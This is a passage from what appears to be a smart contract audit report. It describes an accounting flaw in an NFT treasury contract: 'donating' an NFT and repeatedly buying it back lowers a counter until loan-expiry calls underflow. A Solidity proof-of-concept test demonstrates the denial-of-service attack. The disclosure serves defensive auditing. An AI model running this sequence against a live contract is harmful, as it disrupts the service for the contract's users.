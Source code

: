 However, this fixes the issue only partially because NFTs can still be "donated" (transferred directly) to the treasury address and this could still affect the internal accounting.

A user can "donate" any arbitrary NFT from the corresponding NTLC collection to the treasury address and then purchase it using the `purchaseItem` function. Doing this over and over again will decrease the `itemsTreasuryOwns` by 1 each time the function is called even though no actual NFT that has been deposited in the contract (via `redeemItem`) has been purchased.

This itself possesses no risk for the system as it would basically result in the same as if the user was purchasing an actual NFT and then simply returning it back directly.

However, this vector can lead to an actual severe problem since the `itemsTreasuryOwns` is not decreased only when an item is purchased, but also when an item loan expires:

```solidity
function itemLoanExpired(uint256 loanId_) external {
    ...
    --itemsTreasuryOwns;
    ...
}
```

Therefore, if a malicious users executes the above described action enough times so that `itemLoanExpired`, the impact would be temporary Denial-of-Service for a core functionality of the contract.

**Proof of Concept:**

The full PoC for this finding can be found at [\textit{this link}](https://gist.github.com/gogotheauditor/c85be826d27b46c6e8859a0c5582c281).

```solidity
function test_Proof_of_Concept_M1() external {
    _helperDealWETH(address(this), type(uint256).max / 2);
    weth.approve(address(treasury), type(uint256).max);

    // 1. We mint all NFTs from the NTLC collection and become holders.
    _helperMintNTLC(address(this), 1000);

    // 2. Redeem some of them so there is some balance in the treasury.
    for (uint256 i = 0; i < 100; i++) {
        collection.approve(address(treasury), i);
        treasury.redeemItem(i);
    }

    // 3. Take 3 item loans.
    treasury.loanItem(0, 1 days);
    treasury.loanItem(1, 1 days);
    treasury.loanItem(2, 1 days);

    // 4. "Donate" an arbitrary NFT to the treasury and purchase it back 98 times
    //    so that the `itemsTreasuryOwns` is now less than the amount of NFTs borrowed.
    for (uint256 i = 0; i < 98; i++) {
        collection.transferFrom(address(this), address(treasury), 100);
        treasury.purchaseItem(100);
    }

    // 5. The loans duration passes and they should now be cancelled as expired.
    vm.warp(block.timestamp + 1 days + 1);
    treasury.itemLoanExpired(0);
    treasury.itemLoanExpired(1);

    // 6. However, not all can be cancelled due to the manipulated `itemsTreasuryOwns`
    //    variable that now causes underflow because of the wrong accounting.
    vm.expectRevert(stdError.arithmeticError);
    treasury.itemLoanExpired(2);
}
```
